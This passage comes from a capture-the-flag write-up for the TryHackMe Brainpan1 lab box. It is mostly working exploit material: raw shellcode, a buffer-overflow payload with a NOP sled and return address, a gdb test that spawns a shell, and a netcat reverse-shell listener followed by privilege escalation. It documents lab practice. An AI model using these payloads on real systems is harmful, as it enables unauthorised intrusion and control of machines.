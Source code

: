 check shellcode size again with python3:

```bash
└─$ python3
Python 3.9.10 (main, Feb 22 2022, 13:54:07) 
[GCC 11.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> shell = (
... "\xbf\xbf\x9a\x24\x9f\xdb\xd4\xd9\x74\x24\xf4\x5a\x33\xc9\xb1"
... "\x0b\x31\x7a\x15\x03\x7a\x15\x83\xc2\x04\xe2\x4a\xf0\x2f\xc7"
... "\x2d\x57\x56\x9f\x60\x3b\x1f\xb8\x12\x94\x6c\x2f\xe2\x82\xbd"
... "\xcd\x8b\x3c\x4b\xf2\x19\x29\x43\xf5\x9d\xa9\x7b\x97\xf4\xc7"
... "\xac\x24\x6e\x18\xe4\x99\xe7\xf9\xc7\x9e"
... )
>>> print(len(shell))
70
>>> 
```

```bash
run $(python -c "print ('\xbf\xbf\x9a\x24\x9f\xdb\xd4\xd9\x74\x24\xf4\x5a\x33\xc9\xb1\x0b\x31\x7a\x15\x03\x7a\x15\x83\xc2\x04\xe2\x4a\xf0\x2f\xc7\x2d\x57\x56\x9f\x60\x3b\x1f\xb8\x12\x94\x6c\x2f\xe2\x82\xbd\xcd\x8b\x3c\x4b\xf2\x19\x29\x43\xf5\x9d\xa9\x7b\x97\xf4\xc7\xac\x24\x6e\x18\xe4\x99\xe7\xf9\xc7\x9e') + ('\x90'*46) + ('\x2b\x86\x04\x08')")
```

test it on my local kali vm:

```bash
(gdb) run $(python -c "print ('\xbf\xbf\x9a\x24\x9f\xdb\xd4\xd9\x74\x24\xf4\x5a\x33\xc9\xb1\x0b\x31\x7a\x15\x03\x7a\x15\x83\xc2\x04\xe2\x4a\xf0\x2f\xc7\x2d\x57\x56\x9f\x60\x3b\x1f\xb8\x12\x94\x6c\x2f\xe2\x82\xbd\xcd\x8b\x3c\x4b\xf2\x19\x29\x43\xf5\x9d\xa9\x7b\x97\xf4\xc7\xac\x24\x6e\x18\xe4\x99\xe7\xf9\xc7\x9e') + ('\x90'*46) + ('\x2b\x86\x04\x08')")
Starting program: /home/kali/Documents/RxHack/THM/OFFENSIVEPENTESTPATH/BRAINPAN1/validate $(python -c "print ('\xbf\xbf\x9a\x24\x9f\xdb\xd4\xd9\x74\x24\xf4\x5a\x33\xc9\xb1\x0b\x31\x7a\x15\x03\x7a\x15\x83\xc2\x04\xe2\x4a\xf0\x2f\xc7\x2d\x57\x56\x9f\x60\x3b\x1f\xb8\x12\x94\x6c\x2f\xe2\x82\xbd\xcd\x8b\x3c\x4b\xf2\x19\x29\x43\xf5\x9d\xa9\x7b\x97\xf4\xc7\xac\x24\x6e\x18\xe4\x99\xe7\xf9\xc7\x9e') + ('\x90'*46) + ('\x2b\x86\x04\x08')")
process 115163 is executing new program: /usr/bin/dash
[Detaching after vfork from child process 115165]
$ whoami
kali
```

And now take our payload to the TryHackMe box:

```bash
# listener running, and then fire the ./thm-linux.py script from before

└─$ sudo rlwrap nc -lnvp 80              
[sudo] password for kali: 
listening on [any] 80 ...
connect to [10.11.55.83] from (UNKNOWN) [10.10.180.131] 38600
whoami
puck
/usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
cd /usr/local/bin
cd /usr/local/bin
ls
ls
validate
./validate $(python -c "print ('\xbf\xbf\x9a\x24\x9f\xdb\xd4\xd9\x74\x24\xf4\x5a\x33\xc9\xb1\x0b\x31\x7a\x15\x03\x7a\x15\x83\xc2\x04\xe2\x4a\xf0\x2f\xc7\x2d\x57\x56\x9f\x60\x3b\x1f\xb8\x12\x94\x6c\x2f\xe2\x82\xbd\xcd\x8b\x3c\x4b\xf2\x19\x29\x43\xf5\x9d\xa9\x7b\x97\xf4\xc7\xac\x24\x6e\x18\xe4\x99\xe7\xf9\xc7\x9e') + ('\x90'*46) + ('\x2b\x86\x04\x08')")
<e\x18\xe4\x99\xe7\xf9\xc7\x9e') + ('\x90'*46) + ('\x2b\x86\x04\x08')")      
whoami
whoami
```